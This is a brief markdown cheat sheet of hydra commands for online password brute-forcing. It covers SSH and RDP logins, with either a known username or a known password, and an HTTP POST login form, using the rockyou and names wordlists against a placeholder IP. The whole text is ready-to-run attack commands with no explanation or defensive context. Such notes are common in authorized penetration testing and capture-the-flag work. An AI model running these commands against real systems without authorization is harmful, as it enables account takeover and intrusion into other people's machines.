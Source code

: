 ## SSH
### hydra
- Known username
```
hydra -l <USERNAME> -P /usr/share/wordlists/rockyou.txt ssh://<IP>
```
- Known password
```
hydra -L /usr/share/wordlists/dirb/others/names.txt -p "<PASSWORD>" ssh://<IP>
```
## RDP
### hydra
- Known username 
```
hydra -l <USERNAME> -P /usr/share/wordlists/rockyou.txt rdp://<IP>
```
- Known password
```
hydra -L /usr/share/wordlists/dirb/others/names.txt -p "<PASSWORD>" rdp://<IP>
```
## HTTP-Form
### hydra
- http-post-form
```
hydra -l user -P /usr/share/wordlists/rockyou.txt <IP> http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"
```
